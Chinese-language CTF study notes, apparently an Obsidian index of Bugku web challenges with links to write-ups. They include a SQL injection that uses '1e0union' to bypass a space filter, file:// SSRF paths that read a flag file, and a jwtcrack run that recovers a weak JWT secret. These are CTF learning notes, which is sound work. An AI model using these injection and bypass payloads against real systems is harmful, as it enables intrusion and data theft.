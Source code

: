 1、[[ezbypass-cat]] ----白名单目录穿透
2、[[very_easy_sql]]  ----------[[ssrf]]利用gopher协议+sql注入的cookie盲注
		参考文章： https://blog.51cto.com/u_15437432/6717316
3、[[mfw]]    ---------------- git源码泄露 + assert拼接
4、[[warmup]]











#### 1、[https://ctf.bugku.com/challenges/detail/id/406.html](https://ctf.bugku.com/challenges/detail/id/406.html%E3%80%81)
题解：[[2、ctf-websqli-0x1-bugku题解]]
```sql
mysql> select * from test where id=-1e0union select 3,'huhu';
+------+------+
| id   | name |
+------+------+
|    3 | huhu |
+------+------+
1 row in set (0.00 sec)
```

注意：对于mysqli来说query方法可以执行insert
学到的东西：
```sql
#使用浮点数加union的方式绕过空格，使用order by查询第一行数据
select * from users where username=1E0'unoin select * from users order by username desc
select * from users where username=1E0'unoin insert

```
[[sql注入绕过]]
#### 2、baby lfi 2
https://ctf.bugku.com/challenges/detail/id/426.html
题解：[[1、baby lfi 2题解]]
#### 3、nextGen2
https://ctf.bugku.com/challenges/detail/id/431.html
```
//以下三个的效果是一样的
file:///flag.txt
file://127.0.0.1/flag.txt
file://127.0.1/flag.txt
```
#### 4、whois
https://ctf.bugku.com/challenges/detail/id/432.html
[[whois题解]]

#### 1、just-work-type
注意：这个token由三部分组成以.分割，前两个部分是由base64编码的（注意万能解密工具中的那个base64编码可能没法用，用小葵，然后，破解密码的工具在kali中）
破解密码工具使用方法如下：
```
┌──(root㉿kali)-[~/桌面/c-jwt-cracker-master]
└─# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MDE2ODAxNDcsImV4cCI6MTcwMTY4Mzc0N30.d8DbLwxb3aqXtc2a8DsZOuAXFruBWbWYr8YaGF-ig5I
Secret is "123"
                             
```
[[json web token绕过思路]]

#### 1、ez_curl:
[[ez_curl题解]]
#### 2、unseping：
https://blog.csdn.net/weixin_62871152/article/details/127651737
[[unseping题解]]

